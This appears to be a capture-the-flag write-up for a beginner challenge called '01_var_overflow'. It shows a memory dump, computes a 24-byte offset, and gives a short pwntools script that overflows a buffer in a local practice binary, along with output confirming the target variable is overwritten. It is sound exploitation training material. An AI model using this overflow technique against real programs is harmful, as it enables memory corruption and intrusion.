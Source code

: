 # 01_var_overflow Writeup

## Steps:
1. Run chall and notice input starts writing at the first memory address displayed
```
$ ./chall                

Your goal is to modify the variable @ 0x7fff46ec69e8

0x7fff46ec69d0: 0x0000000000000000 0x0000000000000000 
0x7fff46ec69e0: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: AAAA

0x7fff46ec69d0: 0x0000000a41414141 0x0000000000000000 
0x7fff46ec69e0: 0xffffffffffffffff 0x00000000deadbeef 

You failed to modify the target variable...
Maybe you didn't supply enough input? Try again!
```

2. Determine the distance to the target variable.
    `0x69e8 - 0x69d0 = 24`
3. Create the payload ~ 24 bytes of garbage to reach target variable
```
from pwn import *

target = process("./chall")

payload = b"A"*24

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py  
[+] Starting local process './chall': pid 139487
[+] Receiving all data: Done (426B)
[*] Process './chall' stopped with exit code 0 (pid 139487)

Your goal is to modify the variable @ 0x7ffc4147fcb8

0x7ffc4147fca0: 0x0000000000000000 0x0000000000000000 
0x7ffc4147fcb0: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: 
0x7ffc4147fca0: 0x4141414141414141 0x4141414141414141 
0x7ffc4147fcb0: 0x4141414141414141 0x00000000dead000a 

Congrats! You modified the target variable!
```
